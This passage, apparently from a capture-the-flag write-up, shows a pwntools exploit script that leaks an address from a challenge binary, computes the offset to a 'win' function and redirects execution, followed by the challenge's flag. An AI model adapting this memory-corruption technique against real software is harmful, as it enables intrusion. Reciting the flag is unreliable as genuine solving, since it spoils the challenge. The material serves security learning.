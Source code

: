 ```py
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

payload = b"owo " * 10 + b"@w@ @w@ " + b">w<"
io.sendlineafter(b"Send me your cowode:\n", payload)

io.recvuntil(b"data: ")
io.recvuntil(b"data: ")

leak = int(io.recvuntil(b"\n", drop=True), 10)

offset = exe.sym['win'] - (exe.sym['vuln'] + 0x35d)

io.sendlineafter(b"Input: ", str(leak + offset).encode())

io.interactive()
```

## Flag

```
maple{nyo_wespect_fow_boundawies}
```
